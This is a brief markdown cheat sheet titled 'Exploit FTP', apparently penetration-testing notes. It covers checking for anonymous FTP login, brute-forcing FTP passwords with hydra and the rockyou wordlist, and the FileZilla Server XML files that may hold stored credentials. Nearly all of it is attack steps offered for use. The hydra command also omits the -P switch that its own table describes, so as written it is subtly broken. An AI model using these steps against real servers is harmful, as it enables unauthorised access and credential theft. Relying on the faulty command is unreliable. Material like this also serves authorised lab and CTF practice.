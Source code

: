 # Exploit FTP

Test Anonymous login
```sh
ftp 10.10.10.10

220 Welcome to the administrator FTP service.
Name (10.10.17.124:root): anonymous
Password: <enter>
ftp>
```

## Brute Force 
| Switch | Description |
| ------ | ----------- |
| `-t 4` | Parellel connections |
| `-l username` | Username for login |
| `-P <dictionary path>` | Dictionary to use |
| `-vV` | Very verbose |

```sh
hydra -t 4 -l username /usr/share/wordlists/rockyou.txt -vV 10.10.10.10 ftp
```
## Filezilla
Sometimes credentials can be found:
```sh
C:\Program Files\FileZilla Server\FileZilla Server.xml
C:\xampp\FileZilla Server\FileZilla Server.xml
```


